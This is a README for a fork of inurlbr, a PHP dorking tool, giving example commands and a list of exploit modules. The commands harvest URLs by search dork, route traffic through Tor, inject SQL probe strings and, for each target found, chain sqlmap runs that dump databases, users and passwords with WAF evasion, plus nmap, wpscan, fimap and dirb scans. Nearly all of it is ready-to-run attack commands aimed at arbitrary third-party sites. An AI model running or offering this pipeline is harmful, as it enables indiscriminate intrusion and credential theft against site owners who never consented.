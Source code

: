 # PWR_inurlbr

- added sqllite db logging
- --custom-blacklist
- --custom-config


Example usage:

./inurlbr.php  --dork 'inurl:.php?id=' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 1 -q 1,2,3,4,5,6,7 --exploit-vul-id 1,2,3,5,15,4 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'

Using a dork list and 10 pages of every searchengine (23) do:

./inurlbr.php  --dork-file 'Dorks/dorks2017-prefixed.lst' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 10 -q all --exploit-vul-id 1,2,3,5,15 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'


for list of --exploit-vul-id options which you can add if you like

./inurlbr.php --custom-config K00B404.conf --exploit-list

    [0] => TYPE::COMMAND
    [1] => MKDIR::service tor restart && mkdir -p output/_TARGET_
    [2] => DIG::proxychains dig -4 _TARGET_ > "output/_TARGET_/dig_output.lst" | cat "output/_TARGET_/dig_output.lst"
    [3] => GEOLOCATE::echo _TARGET_ >  "output/_TARGET_/ip_geo.txt" && geoiplookup _TARGETIP_ >> "output/_TARGET_/ip_geo.txt" |cat "output/_TARGET_/ip_geo.txt"
    [4] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --hex --output-dir "output/" --passwords --users --threads 10 --tables --dbs --skip-waf --random-agent --level 2 --risk 3 --batch --retries=1 --timeout 10 --smart --is-dba --dump
    [5] => NMAP::proxychains nmap -F -n -Pn -vvv --open _TARGETIP_ > "output/_TARGET_/nmap_output.lst" |cat  "output/_TARGET_/nmap_output.lst"
    [6] => WPSCAN::wpscan --url "http://"_TARGET_  --batch
    [7] => NMAP::proxychains nmap -n -Pn -vvv --open -p 81,8001,8081 _TARGETIP_ -sV > "output/_TARGET_/nmap_output.lst" |cat "output/_TARGET_/nmap_output.lst"
    [8] => NMAP::proxychains nnmap -vv _TARGETIP_ | grep "Discovered open port" | awk {'print $6":"$4'} | awk -F/ {'print $1'} > "output/_TARGET_/nmap_ip_port_output.lst" |cat "output/_TARGET_/nmap_ip_port_output.lst"
    [9] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --is-dba --users --passwords --skip-waf --random-agent --level 1 --risk 1 --batch --retries=1 --smart --output-dir="output/"
    [10] => NMAP::proxychains nmap -n -Pn -vvv --open --top-ports 10 _TARGETIP_ -sV
    [11] => FIMAP::proxychains fimap -u "http://_TARGET_" -4 -w "output/fimap__TARGET__found_urls.lst" -d 3 >> "output/_TARGET_/fimap_output.lst" |cat "output/_TARGET_/fimap_output.lst"
    [12] => DIRB::proxychains dirb "http://"_TARGET_ |grep "200" > "output/_TARGET__dirb_output.lst" |cat "output/_TARGET__dirb_output.lst"
    [13] => BLACKWIDOW::echo "BLACKWIDOW RUNNING" && proxychains blackwidow -l 1  -u "_TARGETFULL_" -d "_TARGET_" -s "output/_TARGET_/blackwidow_output.lst"
    [14] => SPIDER::echo "SPIDER SCRIPT" && python "modules/crawl.py" --verbose --max-urls=10 --max-time 3 -d 4 "http://"_TARGET_
    [15] => PORTTODB::bash Commands.sh _TARGET_

